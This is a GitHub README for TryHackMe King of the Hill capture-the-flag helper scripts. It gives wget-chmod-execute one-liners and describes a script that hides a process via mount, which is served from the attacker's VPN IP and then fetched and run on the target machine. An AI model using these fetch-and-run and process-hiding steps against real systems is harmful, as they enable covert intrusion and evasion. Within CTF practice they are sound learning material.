 >בס״ד
<div align="center">

![image](https://user-images.githubusercontent.com/51442719/172729066-1293d382-4a31-4f03-8c23-ab0ea5f611a0.png)

# [`Anlominus`](https://github.com/Anlominus) 🤴 [King of the Hill](https://tryhackme.com/games/koth) `BETA`

---


</div>

---

# 📜 KoTH Menu ~ To Do
- 📜 Menu
### 1️⃣ ~ [`KoTH`](./KoTH) ~> TryHackMe VPN
> Simple helper script for VPN, VM's, etc
```shell
wget https://raw.githubusercontent.com/Anlominus/KoTH/main/KoTH; chmod +x KoTH; ./KoTH
```

---

### 2️⃣ ~ [`KoTH-Protection`](./KoTH-Protection) ~> Protecting Rank in King of The Hill
> A script to protect your king
```shell
wget https://raw.githubusercontent.com/Anlominus/KoTH/main/KoTH-Protection ; chmod +x KoTH-Protection; ./KoTH-Protection
```

---

### 3️⃣ ~ [`KoTh-Hidding`](./KoTh-Hidding) ~> A simple script to hide a process with mount
```shell
wget https://raw.githubusercontent.com/Anlominus/KoTH/main/KoTH-Hidding; && chmod +x KoTh-Hidding; ./KoTh-Hidding
```
> - Start local server <br>
>   - `python3 -m http.server 80` <br>
> - in the Target Machine <br>
>   - `wget http://yourvpnip/KoTh-Hidding && chmod +x KoTh-Hidding && ./KoTh-Hidding`

---

# TryHackMe Menu ToDo

---

- [x] Scope
  - [ ] 1️⃣ Asking For Username:
  - [ ] 2️⃣ Asking For TryHackMe VPN File Location:
  - [ ] 3️⃣ Asking Data for Reporting:
  - [ ] 4️⃣ Asking Location For Reporting:
  - [ ] 5️⃣ Asking For IP Target: +~> Insert it to ${box_ip}
  - [ ] 6️⃣ Asking For Name Target: +~> Insert it to ${box_name}

---

- [x] Start
  - [ ] 1️⃣ Adding ${box_ip} ${box_name} ~>> /etc/hosts
    - `sudo echo "${box_ip}   ${box_name}" >> /etc/hosts`  
  - [ ] 2️⃣ Asking For TryHackMe VPN File Location:
  - [ ] 3️⃣ Asking Data for Reporting:

---

- [x] Stop
    - [ ] anonsurf status
    - [ ] anonsurf start
    - [ ] anonsurf stop

---

- [x] Status
    - [ ] Asking For Username:

---

## Index of Machine Covered:
-  [Food](./README-Cheatsheets.md#machine-name-food)
-  [Shrek](./README-Cheatsheets.md#machine-name-shrek)
-  [SpaceJam](./README-Cheatsheets.md#machine-name-space-jam)
-  [Fortune](./README-Cheatsheets.md#machine-name-fortune)
-  [Production](./README-Cheatsheets.md#machine-name-production)
-  [Lion](./README-Cheatsheets.md#machine-name-lion)
-  [Hackers](https://github.com/holmes-py/King-of-the-hill/blob/master/Writeup%20for%20Hackers%2001.md)


---
